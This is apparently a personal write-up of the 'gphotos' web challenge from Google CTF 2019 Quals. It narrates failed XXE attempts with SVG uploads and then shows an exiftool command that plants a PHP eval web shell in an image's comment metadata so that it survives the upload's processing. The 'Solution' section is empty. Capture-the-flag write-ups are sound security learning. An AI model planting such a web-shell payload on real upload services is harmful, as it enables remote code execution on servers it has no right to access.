 # CTF Name – Google Capture The Flag 2019 (Quals)

* **Category:** Web
* **Points:** 500

## Challenge

> Upload your photoz. FYI: /info.php

>Alternative: http://gphotos2.ctfcompetition.com:1337
> http://gphotos.ctfcompetition.com:1337/


### Recon

So starting out I decided to look at the source code of the web page and found out that there was a link to the php source code. I downloaded the php code and looked through it. Noticing a comment saying totally not copy&pasted from somewhere... so I decided to copy and past the first couple lines of the code and found https://jbz.team/midnightsunctfquals2019/Rubenscube. It was a challenge from another CTF Called Midnight Sun CTF 2019 Quals - Rubenscube. At that point I knew that in order to get the flag there was some sort of XXE involved.

## The troubles

I decided to copy and paste the svg code into my own file and uploaded it. I waited and nothing happened it didn't even display on the page. I got really frustrated because at this point there was 4 hours left until the CTF was over. So I kept looking on the internet and kept copying and pasting svg code and every time nothing worked. Then it hit me I needed to add an xml beginning tag to the top of the svg code. So I did that uploaded it and the image was on the page but no XXE happened. At this point I lost all hope and wasn't able to finish on time. 

## The next day

I decided to give it another shot and saw that Bushwackers uploaded his write up and it was completely different from what I had tried. So being the stubborn person I am I kept going with my way and decided to make an image named hello.png and found out that exiftool can add comments just like imagemagick using the command
> exiftool -Comment='<?php eval($_GET["cmd"]);' hello.png
I uploaded the picture and it failed then I realized the image had to be 100x100 and went into pinta and resized it. I uploaded it to the page and it went through. So I downloaded the image to make sure the comment metadata stayed on the image but it didn't. So I got a little upset took a look at the code and noticed these lines
>$size = get_size($path, $mime_type);
        >if ($size[0] * $size[1] > 65536) {
         >   die;
        >}

I assumed that meant that the size of the image has to be bigger than 65536 to keep the comment metadata. So I drew an image and would keep checking to see if my image was over 65536. (I am assuming that 65536 is bits which would be 8.192 kb). After I got above that 65536 number I added the comment and sent it to the website. I downloaded the image, low and behold the comment metadata was still there. So then I made a svg file that returns the png file.

## Solution



```

```